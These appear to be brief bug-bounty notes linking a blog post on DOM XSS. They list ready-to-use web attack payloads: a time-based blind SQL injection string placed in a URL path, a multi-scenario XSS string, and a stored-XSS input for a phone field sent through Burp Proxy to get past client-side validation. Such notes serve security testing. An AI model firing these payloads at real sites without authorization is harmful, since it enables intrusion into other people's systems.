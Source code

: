 https://medium.com/@mohameddhanish98/a-story-of-dom-xss-852b6ed3bb5f

--------------
Inject In Url Its Self Without any Parameter

Payload was Here
/0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z/
as This In Url so We Have [Multiple SQL Injection] 

---------------------------------------------
xss Payloads:
<details++on+/ontoggle%3d1%5econfirm(document.domain)+open//

Test multiple XSS scenarios with ONE payload.  

https://pastebin.com/4zADMK1u
-----------------------------------------------
Bug: Stored XSS 

Tried to input XSS payload through proxy.

Phone Number Field-
Through Browser: Only Numeric Digits allowed (Alphabet and Special Characters Blocked)

Through Burp Proxy: 123"><svg+onload=prompt(document.domain)> (Stored XSS)
---------------------------------------------------------
